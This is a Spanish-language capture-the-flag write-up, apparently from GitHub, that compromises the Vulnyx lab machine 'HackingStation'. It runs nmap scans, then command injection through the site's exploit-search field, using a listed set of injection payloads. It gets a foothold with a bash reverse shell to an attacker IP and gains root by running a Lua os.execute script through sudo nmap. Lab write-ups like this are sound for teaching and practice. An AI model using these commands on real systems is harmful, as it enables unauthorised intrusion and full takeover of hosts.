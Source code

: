 # WRITEUP - HACKINGSTATTION - VULNYX #
![image](https://github.com/Koh4kU/Writeups/assets/82893511/34eb39b4-93b9-49b7-b8e5-30dc668567f9)
### Recon/Scanning network: ###
Empezamos identificando el activo víctima a explotar dentro de nuestra red con un reconocimiento completo de ella:
```shell
$ netdiscover -r 10.0.2.0/24
```
![Captura de pantalla 2024-04-18 192901](https://github.com/Koh4kU/Writeups/assets/82893511/626aee75-b960-4326-b516-a1debd950599)
Identificamos la ip de nuestra víctima, ahora podemos empezar a escanear el activo para identificar posibles vectores de entrada.  
Ejecutamos un escaneo con nmap en el que escaneamos todos los 65535 puertos (-p-), que nos identifique todos aquellos puertos abiertos (--open), con un ratio mínimo de 5000 paquetes por segundo (--min-rate 5000), sin resolución DNS (-n) y sin host discovery (-Pn). [First scan](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/HackingStation/nmap/first-scan).
```console
$ nmap -p- --open --min-rate 5000 -n -Pn 10.0.2.6
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00059s latency).
Not shown: 44294 closed tcp ports (reset), 21240 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

# Nmap done at Thu Apr 18 13:31:48 2024 -- 1 IP address (1 host up) scanned in 18.70 seconds
```
Observamos que solo existe un puerto abierto con el escaneo realizado, por lo que vamos a ejecutar un escaneo sobre servicios y con unos scripts por defecto para el análisis. [Scan services](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/HackingStation/nmap/scan-services).
```shell
$ nmap -p80 -sVC 10.0.2.6 
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00069s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 13:33:06 2024 -- 1 IP address (1 host up) scanned in 6.94 seconds
```
### Enumeration ###
Como podemos comprobar, tiene un servicio HTTP con un apache 2.4.57, el cuál si buscamos un poco de información, podemos ver que está relacionado con el CVE-2023-31122, el cuál nos permite ejecutar un RCE (Remote Command Execution), no indagaremos más por ahora sobre está vulnerabilidad pero está bien tenerla en mente.  
Teniendo este servicio web, podemos dejar un dirbuster ejecutando mientras nosotros analizamos de forma manual el servicio web. [Dirbuster](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/HackingStation/enumeration/dirbuster_80).
```shell
$ dirb http://10.0.2.6:80
```
Dejamos la ejecución de dirbuster corriendo y mientras vamos a echar un vistazo al servicio web. Al entrar con el navegador, podemos ver la página principal. Este servicio web parece tener la funcionalidad de ser un repositorio de exploits en el que se pueden buscar mediante el cuadro de texto abajo. Al ver este cuadro de texto habilitado, podemos empezar a probar cualquier Injección de Comandos para ver si es vulnerable o no.   
![Captura de pantalla 2024-04-18 194155](https://github.com/Koh4kU/Writeups/assets/82893511/5d0432cb-fd82-4745-8893-741fe7864206)
### Exploitation ###
Antes de empezar a inyectar comandos, podemos buscar por ejemplo qué vulnerabilidades tiene apache 2.4.57 y ver el funcionamiento del servicio.  
![Captura de pantalla 2024-04-18 195727](https://github.com/Koh4kU/Writeups/assets/82893511/76e67e3f-ea77-422c-a774-61f1d1786b67)  
Identificamos que el servicio ejecuta un archivo php para hacer la búsqueda llamado queryExploit.php. Gracias a esto, ya sabemos que el servicio web usa por debajo php y nos sirve para hacer inyecciones en php o relacionado. Podemos probar a ejecutar dentro del cuadro de búsqueda de la página principal comandos como:
- PHP:
	- ";exec("ls")
 	- ';exec("ls")
  	- ");exec("ls")
  	- ');exec("ls")
- SQL:
	- '; select * --
- JS:
	- ;alert("Hacked")
 	- ";alert("Hacked")
  	- ';alert("Hacked")
  	- ");alert("Hacked")
  	- ');alert("hacked")

Pero ninguno de estos intentos nos va a funcionar. Si analizamos un poco la respuesta del servidor, observamos que nos referencia un path en el que se encuentra el posible repositorio en el que se apoya el servicio web, siendo este path: */opt/snap/core22/searchsploit/298/*. Esto nos puede dar una pista de que el comando que se está ejecutando al buscar el exploit dentro del repositorio, es un comando de sistema y al saber que estamos aparentemente ante un sistema Debian (Linux) por el escaneo de servicios realizado anteriormete, podemos probar a ejecutar comandos de sistema. Por ejemplo vamos a ejecutar un *whoami* para ver si esto es posible:  
![image](https://github.com/Koh4kU/Writeups/assets/82893511/9da118aa-46ce-434b-ba44-7631d67c704c)  
Al ejecutar esto, vemos que al final de la página, nos devuelve "hacker". Podemos confirmar que este es el método que está utilizando el servicio por dentro y acabamos de ejecutar un comando de forma remota en el sistema.  
![image](https://github.com/Koh4kU/Writeups/assets/82893511/5ffcc859-9522-4a81-8252-f5c5f792c0d1)  
### Gaining access ###
Una vez comprobado esto, vamos a enviarnos una reverse shell para conseguir conectarnos con una terminal y poder seguir con la intrusión de forma más sencilla y cómoda. Para esto dejamos nuestra máquina a la escucha por un puerto aleatorio, por ejemplo, 443, a la espera de una conexión.
```shell
$ nc -nlvp 443
```
Mientras, hacemos una búsqueda ejecutando una reverse shell sobre el servicio web con: *;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'* y ejecutamos.  
Acabamos de recibir una shell con el usuario hacker sobre la máquina víctima.  
![Captura de pantalla 2024-04-18 210545](https://github.com/Koh4kU/Writeups/assets/82893511/ce07c336-fbee-4f6b-95c2-c71156e71ec7)  
Tenemos una shell, pero debemos realizar un tratamiento adecuado de la shell para que nos resulte más cómodo:
```shell
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo;fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
```
Recibimos una shell tratada. Una vez hecho esto, podemos buscar la flag del usuario hacker, la cual estará en su directorio home: */home/hacker/user.txt*.  
![Captura de pantalla 2024-04-18 211138](https://github.com/Koh4kU/Writeups/assets/82893511/28523d81-d66a-4f85-8bae-5a22af61e463)  
### Privilege escalation ###
Una vez tenemos el accesso con un usuario sin privilegios aparentes, toca escalar a root para obtener el control total de la máquina. Empezamos visualizando los permisos propios del usuario, sus grupos, si tiene un crontab asociado y posibles archivos con permisos SUID/GUID que nos permitan escalar, pero no vemos nada aparentemente. Vamos a listar si el usuario tiene algún permiso a nivel de *sudo* y vemos que puede ejecutar como root un binario */usr/bin/nmap*.  
```shell
$ sudo -l
```
![Captura de pantalla 2024-04-18 211604](https://github.com/Koh4kU/Writeups/assets/82893511/8694053e-2602-44e9-95bf-e856aaa0fe04)  
Probamos a ejecutar el comando y vemos que tiene un funcionamiento como nmap. Podemos de hecho, realizar un escaneo a localhost y poder ver servicios levantados solo de forma interna.  
```shell
$ sudo nmap 127.0.0.1
```
![image](https://github.com/Koh4kU/Writeups/assets/82893511/bfd81e42-66be-45cb-acda-797be5cc842b)  
Observamos que nos aparece ssh abierto. Este servicio aunque salga abierto, no es accesible de forma externa a la máquina, tal y como vimos en los primeros escaneos realizados de forma remota. Esto simplemente es una curiosidad, no nos ayudará a escalar o comprometer más la máquina.  
Si recordamos, nmap se puede implementar con scripts, por lo que podemos intentar ejecutar algún script propio mediante nmap y que nos devuelva una shell como root. Esto debido a que como podemos ejecutar nmap como root, si conseguimos que nmap ejecute una shell mediante un script, nos devolverá una shell con el usuario que ejecuta nmap, root. Haciendo una búsqueda para ver cómo crear scripts *.lua* propios y ejecutarlos con nmap, nos topamos con una web llamada **GTFOBins**, la cual es un repositorio de diferentes binarios a ejecutar en entornos en los que haya pocos recursos.  
![Captura de pantalla 2024-04-18 220903](https://github.com/Koh4kU/Writeups/assets/82893511/1197db5b-081b-4875-b33a-76047d0546d2)  
Tenemos una entrada para nmap y bajando, encontramos una sección para ejecutar una shell mediante nmap. Hay dos formas:
- nmap --interactive: Solo entre las versiones 2.02 a 5.21.
- *Input echo is disabled*:
Debido a que nuestra versión es 7.x, nos queda probar la segunda opción. Esta opción consiste en crear un temporal que contenga la sentencia *os.execute()* que nos permite ejecutar comandos del sistema, de esta forma, podemos intentar ejecutar una shell. 
```shell
$ BASH=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $BASH
$ sudo nmap --script=$BASH
```
![Captura de pantalla 2024-04-18 221013](https://github.com/Koh4kU/Writeups/assets/82893511/ff524ba5-fe77-456e-a473-44014ae859c9)   
Hemos conseguido obtener una shell como root. Una vez hecho esto, tenemos completo control del sistema. Nos spawnea una shell en la que no nos aparece lo que escribimos, para recibir una shell en condiciones podríamos ejecutarnos una reverse shell y captarla como hemos hecho en pasos anteriores, activar de forma externa ssh y entrar mediante una clave pública... etc. Nosotros lo que vamos a obtener ahora es la flag de root, la cual se encuentra en */root/root.txt*.  
![Captura de pantalla 2024-04-18 222145](https://github.com/Koh4kU/Writeups/assets/82893511/5df0b6a2-6bf3-4e18-8b3f-cd0a91dd810b)  
### Adicional ###
Si recordáis, en la parte de enumeración del activo, habíamos ejecutado un dirbuster el cual no nos ha hecho falta para poder comprometer el objetivo. De todas formas, este dirbuster nos identifica una ruta en el servicio web que nos lleva a una librerñia de jQuery. En principio, no he encontrado nada interesante en esa ruta: *http://10.0.2.6:80/javascript/jQwery/jQuery*.
